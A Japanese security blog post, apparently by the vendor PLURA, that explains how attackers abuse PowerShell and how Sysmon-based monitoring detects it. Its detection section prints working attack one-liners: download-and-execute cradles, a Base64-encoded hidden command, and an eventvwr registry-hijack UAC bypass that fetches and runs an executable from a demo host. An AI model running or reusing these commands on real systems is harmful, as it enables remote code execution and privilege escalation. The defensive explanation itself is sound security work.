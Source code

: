 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShellを利用した攻撃"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "マルウェア", "ウェブハッキング", "セキュリティ脆弱性", "PLURA"]
---
```


PowerShellは、システム管理や自動化を目的に設計されたコマンドラインシェルおよびスクリプト言語です。  
Windows Vista以降に標準搭載されており、管理ツールとして有用である一方、攻撃者にも頻繁に利用されています。

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 実行ポリシー (Execution Policy)

MicrosoftはデフォルトでPowerShellスクリプトの実行を制限しています。  
しかし、攻撃者はこれを簡単に回避することが可能です。  

**回避フラグ例:**  
- `-ExecutionPolicy` または `-EP Bypass`  
- `-ExecutionPolicy` または `-EP Unrestricted`  
- `-noprofile` または `-nop`  

*Profile Bypass: 各セッションの開始時にPowerShellを構成するために設定されたProfileも無視可能です。*

---

### 2. ダウンロード

PowerShellクラスおよびメソッドを使用して、マルウェアをダウンロードおよび実行することができます。  

頻繁に使用されるコマンド:  
- **New-Object**: .NET Frameworkのインスタンスを生成します。  
- **System.Net.WebClient**: リモートリソースとのデータ送受信に使用されます。  
- **DownloadString**: リモートからメモリバッファに内容をダウンロードします。  
- **DownloadFile**: リモートからローカルファイルとしてコンテンツをダウンロードします。  
- **IEX (Invoke-Expression)**: コマンドを実行します。  
- **ICM (Invoke-Command)**: ローカルおよびリモートコンピューターでコマンドを実行します。

---

### 3. エンコーディング

- PowerShellコマンドを隠蔽するためにBase64エンコーディングが頻繁に使用されます。  
- エンコーディングされたコマンドは、コマンドラインの長さが異常に長くなる場合があります。  
- 500文字を超える長いコマンドは、疑わしい可能性があります。

---

### 4. DLLの呼び出し

- 疑わしいDLL呼び出しの組み合わせを検出することで、悪意ある動作を特定できます。  
- PowerShell.exeまたはPowerShell_ISE.exe以外の実行ファイルで以下のDLL呼び出しが発生しているか監視します。  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)を活用して確認可能です。*

---

### 5. PLURAによるPowerShell悪意ある動作の検出

**Sysmonインストールが必須**  
- [インストールガイドを見る](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA検出](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### マルウェア実行の検出例

PowerShellの回避および攻撃者サーバーからのファイルダウンロード行為:  

![PowerShellマルウェア実行](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURAフィルタ検出**  
PLURAはSysmonを活用し、以下のような悪意あるコマンドを検出します:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 参考

- [SANS資料](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcomレポート](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab記事](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 関連記事・セキュリティニュース

- [セキュリティニュースを見る](https://bit.ly/2V99SLF)
